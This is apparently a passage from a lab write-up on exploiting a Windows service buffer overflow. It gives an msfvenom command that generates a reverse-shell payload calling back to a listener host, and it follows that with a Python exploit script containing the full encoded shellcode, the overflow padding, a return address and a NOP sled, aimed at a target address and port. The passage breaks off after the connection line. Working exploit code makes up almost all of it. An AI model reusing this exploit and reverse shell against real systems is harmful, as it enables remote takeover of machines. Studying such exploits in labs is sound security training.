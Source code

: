 
* break point jmp esp (double click) + restart service

 <img src="/img/crashed/point.PNG" alt="Getting-gz" width="800" height="440">


* create shell code by msfvenom
* `msfvenom -p windows/shell_reverse_tcp  LHOST=192.168.128.128 LPORT=443 -e x86/shikata_ga_nai -f py -v shell -b "\x00"`
* update python script
* replace  BBBB esp get from mona script (\xad\x12\x50\x62') write(little endian)
* add nop(no operation befor shellcode)\x90

		{% highlight text %}
		import socket
		s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
		shell =  b""
		shell += b"\xda\xd1\xd9\x74\x24\xf4\xbe\x3d\x6f\x0b\x48\x58"
		shell += b"\x29\xc9\xb1\x52\x31\x70\x17\x03\x70\x17\x83\xd5"
		shell += b"\x93\xe9\xbd\xd9\x84\x6c\x3d\x21\x55\x11\xb7\xc4"
		shell += b"\x64\x11\xa3\x8d\xd7\xa1\xa7\xc3\xdb\x4a\xe5\xf7"
		shell += b"\x68\x3e\x22\xf8\xd9\xf5\x14\x37\xd9\xa6\x65\x56"
		shell += b"\x59\xb5\xb9\xb8\x60\x76\xcc\xb9\xa5\x6b\x3d\xeb"
		shell += b"\x7e\xe7\x90\x1b\x0a\xbd\x28\x90\x40\x53\x29\x45"
		shell += b"\x10\x52\x18\xd8\x2a\x0d\xba\xdb\xff\x25\xf3\xc3"
		shell += b"\x1c\x03\x4d\x78\xd6\xff\x4c\xa8\x26\xff\xe3\x95"
		shell += b"\x86\xf2\xfa\xd2\x21\xed\x88\x2a\x52\x90\x8a\xe9"
		shell += b"\x28\x4e\x1e\xe9\x8b\x05\xb8\xd5\x2a\xc9\x5f\x9e"
		shell += b"\x21\xa6\x14\xf8\x25\x39\xf8\x73\x51\xb2\xff\x53"
		shell += b"\xd3\x80\xdb\x77\xbf\x53\x45\x2e\x65\x35\x7a\x30"
		shell += b"\xc6\xea\xde\x3b\xeb\xff\x52\x66\x64\x33\x5f\x98"
		shell += b"\x74\x5b\xe8\xeb\x46\xc4\x42\x63\xeb\x8d\x4c\x74"
		shell += b"\x0c\xa4\x29\xea\xf3\x47\x4a\x23\x30\x13\x1a\x5b"
		shell += b"\x91\x1c\xf1\x9b\x1e\xc9\x56\xcb\xb0\xa2\x16\xbb"
		shell += b"\x70\x13\xff\xd1\x7e\x4c\x1f\xda\x54\xe5\x8a\x21"
		shell += b"\x3f\xca\xe3\xa9\x3f\xa2\xf1\xa9\x3e\x88\x7f\x4f"
		shell += b"\x2a\xfe\x29\xd8\xc3\x67\x70\x92\x72\x67\xae\xdf"
		shell += b"\xb5\xe3\x5d\x20\x7b\x04\x2b\x32\xec\xe4\x66\x68"
		shell += b"\xbb\xfb\x5c\x04\x27\x69\x3b\xd4\x2e\x92\x94\x83"
		shell += b"\x67\x64\xed\x41\x9a\xdf\x47\x77\x67\xb9\xa0\x33"
		shell += b"\xbc\x7a\x2e\xba\x31\xc6\x14\xac\x8f\xc7\x10\x98"
		shell += b"\x5f\x9e\xce\x76\x26\x48\xa1\x20\xf0\x27\x6b\xa4"
		shell += b"\x85\x0b\xac\xb2\x89\x41\x5a\x5a\x3b\x3c\x1b\x65"
		shell += b"\xf4\xa8\xab\x1e\xe8\x48\x53\xf5\xa8\x79\x1e\x57"
		shell += b"\x98\x11\xc7\x02\x98\x7f\xf8\xf9\xdf\x79\x7b\x0b"
		shell += b"\xa0\x7d\x63\x7e\xa5\x3a\x23\x93\xd7\x53\xc6\x93"
		shell += b"\x44\x53\xc3"`

		 payload='A'*998
		 buffer=buffer="SECRET"+payload+'\xad\x12\x50\x62'+'\x90'*16+shell+'\x90'*(2000-998-4-6-16-len(shell))
		 s.connect(("192.168.128.129",13337))